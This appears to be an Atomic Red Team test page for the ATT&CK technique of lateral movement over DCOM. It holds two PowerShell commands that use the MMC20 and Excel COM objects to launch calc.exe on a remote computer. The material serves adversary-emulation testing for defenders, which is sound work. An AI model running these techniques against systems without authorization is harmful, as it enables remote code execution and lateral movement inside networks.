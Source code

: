 # T1021.003 - Remote Services: Distributed Component Object Model
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1021/003)
<blockquote>Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to interact with remote machines by taking advantage of Distributed Component Object Model (DCOM). The adversary may then perform actions as the logged-on user.

The Windows Component Object Model (COM) is a component of the native Windows application programming interface (API) that enables interaction between software objects, or executable code that implements one or more interfaces. Through COM, a client object can call methods of server objects, which are typically Dynamic Link Libraries (DLL) or executables (EXE). Distributed COM (DCOM) is transparent middleware that extends the functionality of COM beyond a local computer using remote procedure call (RPC) technology.(Citation: Fireeye Hunting COM June 2019)(Citation: Microsoft COM)

Permissions to interact with local and remote server COM objects are specified by access control lists (ACL) in the Registry.(Citation: Microsoft Process Wide Com Keys) By default, only Administrators may remotely activate and launch COM objects through DCOM.(Citation: Microsoft COM ACL)

Through DCOM, adversaries operating in the context of an appropriately privileged user can remotely obtain arbitrary and even direct shellcode execution through Office applications(Citation: Enigma Outlook DCOM Lateral Movement Nov 2017) as well as other Windows objects that contain insecure methods.(Citation: Enigma MMC20 COM Jan 2017)(Citation: Enigma DCOM Lateral Movement Jan 2017) DCOM can also execute macros in existing documents(Citation: Enigma Excel DCOM Sept 2017) and may also invoke [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002) (DDE) execution directly through a COM created instance of a Microsoft Office application(Citation: Cyberreason DCOM DDE Lateral Movement Nov 2017), bypassing the need for a malicious document. DCOM can be used as a method of remotely interacting with [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047). (Citation: MSDN WMI)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PowerShell Lateral Movement using MMC20](#atomic-test-1---powershell-lateral-movement-using-mmc20)

- [Atomic Test #2 - PowerShell Lateral Movement Using Excel Application Object](#atomic-test-2---powershell-lateral-movement-using-excel-application-object)


<br/>

## Atomic Test #1 - PowerShell Lateral Movement using MMC20
Powershell lateral movement using the mmc20 application com object.

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows


**auto_generated_guid:** 6dc74eb1-c9d6-4c53-b3b5-6f50ae339673





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | localhost|


#### Attack Commands: Run with `powershell`! 


```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Document.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```






<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement Using Excel Application Object
Powershell lateral movement using the Excel COM objects.

Reference:

https://posts.specterops.io/lateral-movement-abuse-the-power-of-dcom-excel-application-3c016d0d9922

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows


**auto_generated_guid:** 505f24be-1c11-4694-b614-e01ae1cd2570





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Hostname or IP | string | localhost|
| user | Name of user | string | admin|


#### Attack Commands: Run with `powershell`! 


```powershell
copy c:\windows\system32\calc.exe 'C:\users\#{user}\AppData\local\Microsoft\WindowsApps\foxprow.exe'
$com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application","#{computer_name}"))
$com.ActivateMicrosoftApp("5")
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```




<br/>
